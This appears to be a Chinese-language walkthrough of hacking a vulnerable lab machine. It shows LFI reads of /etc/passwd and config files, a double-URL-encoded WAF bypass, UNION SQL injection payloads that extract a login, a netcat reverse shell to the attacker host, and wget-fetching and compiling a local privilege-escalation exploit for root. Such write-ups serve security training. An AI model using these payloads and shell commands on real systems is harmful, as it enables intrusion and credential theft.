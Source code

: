 
# 一、查找目标IP
因为是从网上下载的靶场，我不知道靶机的IP是多少，也不知道靶机的账号和密码，所以想到我们可以使用msfconsole中的扫描模块进行扫描<br />![](https://img-blog.csdnimg.cn/20210310150441223.png#crop=0&crop=0&crop=1&crop=1&id=YSMSS&originHeight=145&originWidth=554&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

设置参数<br />![](https://img-blog.csdnimg.cn/20210310150450399.png#crop=0&crop=0&crop=1&crop=1&id=hk1TU&originHeight=102&originWidth=522&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

得到目标机IP：192.168.1.13<br />![](https://img-blog.csdnimg.cn/20210310150505784.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=XUVSn&originHeight=210&originWidth=531&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


# 二、信息收集
使用nmap扫描所开放的端口<br />nmap -nP -sV 192.168.1.13<br />![](https://img-blog.csdnimg.cn/20210310150529833.png#crop=0&crop=0&crop=1&crop=1&id=pHFR4&originHeight=167&originWidth=554&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到只开放三个端口：22；80；8080；


# 三、漏洞挖掘
既然开放了HTTP服务那我们当然是要去访问一番<br />![](https://img-blog.csdnimg.cn/20210310150545151.png#crop=0&crop=0&crop=1&crop=1&id=KSZIE&originHeight=163&originWidth=554&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到是一个WAF的推荐广告并要我们提交优惠码，很显然该网站上已使用该WAF<br />我们也知道该页面可能存在SQL注入不过存在WAF<br />随意构造一个语句进行提交可以看到恶意请求被阻止！<br />![](https://img-blog.csdnimg.cn/20210310150554274.png#crop=0&crop=0&crop=1&crop=1&id=GS28r&originHeight=41&originWidth=318&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看页面源代码以获取更多信息<br />![](https://img-blog.csdnimg.cn/20210310150557949.png#crop=0&crop=0&crop=1&crop=1&id=PYJ9R&originHeight=182&originWidth=554&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

发现该页面有一个图片引用了文件可能容易受到LFI和RFI的攻击。<br />![](https://img-blog.csdnimg.cn/20210310150604154.png#crop=0&crop=0&crop=1&crop=1&id=Sa3ED&originHeight=79&originWidth=268&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

尝试获取密码
```bash
http://192.168.1.13/image.php?src=/etc/passwd
```
![](https://img-blog.csdnimg.cn/20210310150609210.png#crop=0&crop=0&crop=1&crop=1&id=wYPZA&originHeight=75&originWidth=554&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在浏览器中我们只得到了一个错误的提醒并没有得到任何有用的东西，可是事实真是如此吗？

同样是提交该url不同的是我们使用burpsuite抓包重放
```bash
http://192.168.1.102/image.php?src=/etc/passwd
```
![](https://img-blog.csdnimg.cn/20210310150633648.png#crop=0&crop=0&crop=1&crop=1&id=Lx2gG&originHeight=142&originWidth=365&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

成功读取<br />![](https://img-blog.csdnimg.cn/20210310150643894.png#crop=0&crop=0&crop=1&crop=1&id=uatdO&originHeight=258&originWidth=270&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

继续查看一下配置文件
```bash
http://192.168.1.13/image.php?src=/var/www/config.php
```

![](https://img-blog.csdnimg.cn/20210310150701119.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=ZJGS9&originHeight=213&originWidth=334&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


# 四、漏洞利用
可以看到数据库可以使用localhost来访问，而且在前面我们看到存在文件包含漏洞，所以想到我们可以用文件包含来访问8080端口的优惠码提交框来执行SQL注入，不使用80端口是因为存在waf
```bash
文件包含URL：http://192.168.1.13/image.php?src=
优惠码提交框URL：http://192.168.1.13/checkpromo.php?promocode=
合并改为localhost并改为8080端口：http://192.168.1.13/image.php?src=http://localhost:8080/checkpromo.php?promocode=
```

当在输入框输入优惠码时显示优惠码过期<br />![](https://img-blog.csdnimg.cn/20210310150722645.png#crop=0&crop=0&crop=1&crop=1&id=IDfiU&originHeight=39&originWidth=127&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

当在输入框输入优惠码并加上单引号时显示恶意请求被阻止！<br />![](https://img-blog.csdnimg.cn/20210310150737140.png#crop=0&crop=0&crop=1&crop=1&id=QN921&originHeight=48&originWidth=302&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

使用#进行注释，依然如此，不过在经过一系列尝试后发现经过一次url编码后可以绕过<br />![](https://img-blog.csdnimg.cn/20210310150732814.png#crop=0&crop=0&crop=1&crop=1&id=QxFXK&originHeight=56&originWidth=346&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
![](https://img-blog.csdnimg.cn/20210310150745788.png#crop=0&crop=0&crop=1&crop=1&id=lse9P&originHeight=67&originWidth=554&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

使用burpsuite抓包又显示恶意请求被阻止！<br />![](https://img-blog.csdnimg.cn/20210310150742674.png#crop=0&crop=0&crop=1&crop=1&id=Adkew&originHeight=141&originWidth=554&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

不过我们可以看到两次所提交的url不同
```bash
第一次：http://192.168.1.13/checkpromo.php?promocode=NONEEDFORPENTEST%2527%2523
第二次：http://192.168.1.13/checkpromo.php?promocode=NONEEDFORPENTEST%27%23
```

说明我们需要将%再进行一次url编码为%25

开始手工SQL注入<br />判断字段数，输入payload并抓包<br />输入
```bash
http://192.168.1.13/image.php?src=http://localhost:8080/checkpromo.php?promocode= NONEEDFORPENTEST%2527order%2Bby%2B2%2523
```
![](https://img-blog.csdnimg.cn/20210310150819889.png#crop=0&crop=0&crop=1&crop=1&id=Nwb4u&originHeight=127&originWidth=527&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
显示促销码过期！

输入
```bash
http://192.168.1.13/image.php?src=http://localhost:8080/checkpromo.php?promocode= NONEEDFORPENTEST%2527order%2Bby%2B3%2523
```

![](https://img-blog.csdnimg.cn/2021031015090818.png#crop=0&crop=0&crop=1&crop=1&id=FjWMi&originHeight=133&originWidth=535&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

显示促销码无效！说明存在两个字段

判断那个字段能够回显<br />输入
```bash
http://192.168.1.13/image.php?src=http://localhost:8080/checkpromo.php?promocode=NONEEDFORPENTEST%2527union%2Bselect%2B1%252C2%2B%2523
```

![](https://img-blog.csdnimg.cn/20210310150934175.png#crop=0&crop=0&crop=1&crop=1&id=Xiz3i&originHeight=130&originWidth=522&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
说明第一个字段能够回显

我们已经知道数据库为fancybd，通常情况下账户保存在数据库下的users表中的username中，密码保存在数据库下的users表中的password中

构造payload
```bash
http://192.168.1.13/image.php?src=http://localhost:8080/checkpromo.php?promocode=NONEEDFORPENTEST%2527union%2Bselect%2Busername%252C2%2Bfrom%2Bfancydb.users%2523
```
![](https://img-blog.csdnimg.cn/20210310151005953.png#crop=0&crop=0&crop=1&crop=1&id=AaxKq&originHeight=181&originWidth=542&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

得到账户andrea
```bash
http://192.168.1.13/image.php?src=http://localhost:8080/checkpromo.php?promocode=NONEEDFORPENTEST%2527union%2Bselect%2Bpassword%252C2%2Bfrom%2Bfancydb.users%2523
```
![](https://img-blog.csdnimg.cn/20210310151020292.png#crop=0&crop=0&crop=1&crop=1&id=MXZXF&originHeight=145&originWidth=521&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

得到密码SayNoToPentests

在nmap的扫描结果中我们看到了22端口开放，尝试去使用账号和密码去连接
```bash
ssh andrea@192.168.1.13
```
![](https://img-blog.csdnimg.cn/20210310151040745.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=bflmn&originHeight=499&originWidth=549&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

登录成功

不过我们不管执行任何命令都没有显示<br />![](https://img-blog.csdnimg.cn/20210310151049865.png#crop=0&crop=0&crop=1&crop=1&id=PKWWr&originHeight=72&originWidth=276&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

因此，我们使用netcat来获取反向外壳<br />首先在攻击机上启动监听
```bash
nc -lvp 1234
```
![](https://img-blog.csdnimg.cn/20210310151055660.png#crop=0&crop=0&crop=1&crop=1&id=ik9tU&originHeight=54&originWidth=260&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

然后在目标机上执行
```bash
nc -e /bin/bash 192.168.1.10 1234
```
![](https://img-blog.csdnimg.cn/2021031015111399.png#crop=0&crop=0&crop=1&crop=1&id=j5uFF&originHeight=40&originWidth=414&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

返回到监听可以看到成功反弹<br />![](https://img-blog.csdnimg.cn/20210310151120898.png#crop=0&crop=0&crop=1&crop=1&id=x5vxI&originHeight=137&originWidth=542&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

让我们使终端界面看上去友好一些，输入
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
![](https://img-blog.csdnimg.cn/20210310151129232.png#crop=0&crop=0&crop=1&crop=1&id=Pp5qf&originHeight=42&originWidth=388&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


# 五、提权
查看目标机的版本信息
```bash
lsb_release -a
```
![](https://img-blog.csdnimg.cn/20210310151146126.png#crop=0&crop=0&crop=1&crop=1&id=o2HZT&originHeight=113&originWidth=297&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

发现该操作系统为Ubuntu 12.04

在网上找到提权漏洞<br />![](https://img-blog.csdnimg.cn/20210310151153998.png#crop=0&crop=0&crop=1&crop=1&id=EPHGs&originHeight=159&originWidth=554&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

下载到攻击机<br />![](https://img-blog.csdnimg.cn/20210310151159793.png#crop=0&crop=0&crop=1&crop=1&id=sU8ci&originHeight=199&originWidth=382&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在攻击机上使用python开一个临时的http服务
```bash
python -m SimpleHTTPServer 1111
```
![](https://img-blog.csdnimg.cn/20210310151204309.png#crop=0&crop=0&crop=1&crop=1&id=pQPi3&originHeight=39&originWidth=428&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在靶机上进入/tmp/目录访问临时的http服务将利用包下载到靶机中
```bash
 cd /tmp/
 wget http://192.168.1.10:1111/37292.c
```
![](https://img-blog.csdnimg.cn/2021031015124720.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=agY6z&originHeight=236&originWidth=554&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

将该文件进行编译
```bash
gcc 37292.c -o exploit
```
![](https://img-blog.csdnimg.cn/20210310151350130.png#crop=0&crop=0&crop=1&crop=1&id=MKoVj&originHeight=87&originWidth=366&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

赋权限
```bash
chmod 777 exploit
```
![](https://img-blog.csdnimg.cn/20210310151359189.png#crop=0&crop=0&crop=1&crop=1&id=AYagn&originHeight=119&originWidth=450&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

执行
```bash
./exploit
```
成功获取到root权限。<br />![](https://img-blog.csdnimg.cn/20210310151405948.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=b5sT6&originHeight=226&originWidth=428&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

最后：说是稍微复杂其实也不复杂主要就是在SQL注入那一部分绕过WAF和手工注入有那么一丢丢复杂。
